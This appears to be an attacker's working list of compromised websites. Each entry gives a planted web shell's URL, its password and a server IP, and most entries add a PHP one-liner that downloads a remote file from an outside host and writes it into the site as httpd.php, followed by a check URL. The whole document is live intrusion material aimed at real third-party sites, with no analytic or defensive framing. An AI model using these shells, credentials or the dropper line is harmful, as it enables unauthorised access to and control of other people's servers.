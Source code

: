 https://www.taiguii.com/static/upload/image/20230719/12m.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
https://www.taiguii.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.taiguii.com/config/httpd.php?d=up

https://wq.xkji.cn/web/themes/black/11m.php |mmk123 |  47.93.234.132
http://bbs.xkji.cn/uc_client/lib/xml.class.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
http://bbs.xkji.cn/api/httpd.php
<?php file_put_contents("../data/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://bbs.xkji.cn/data/httpd.php?d=up

https://cqll.vwxr.cn/content/images/haibao/12m.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
https://cqll.vwxr.cn/api/httpd.php
<?php file_put_contents("../h5/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://cqll.vwxr.cn/h5/httpd.php?d=up

https://www.kingmin.cn//wapp/image/portrait/20201216/11m.php |mmk123 |  47.93.234.132
代码更新：0608 ✅
https://www.kingmin.cn/wapp/httpd.php
<?php file_put_contents("../content/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.kingmin.cn/content/httpd.php?d=up


http://www.juxingjituan.com/static/upload/image/20200425/11m.php |mmk123 |  47.112.240.242
代码更新：0608 ✅
http://www.juxingjituan.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.juxingjituan.com/config/httpd.php?d=up

https://instruments.uni-trend.com.cn//template/default/datetimepicker/js/locales/mr1.php |mmk123 |  47.107.53.147  | 连接不上
https://meters.uni-trend.com.cn/static/upload/other/20221221/11m.php |mmk123 |  47.107.53.147

http://www.hhkj2021.cn/runtime/data/11m.php |mmk123 |  47.104.169.49
代码更新：0608 ✅
http://www.hhkj2021.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.hhkj2021.cn/config/httpd.php?d=up

http://www.idwod.cn/assets/images/index/11m.php |mmk123 |  47.104.169.49
代码更新：0608 ✅
http://www.idwod.cn/file/httpd.php
<?php file_put_contents("../help/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.idwod.cn/help/httpd.php?d=up
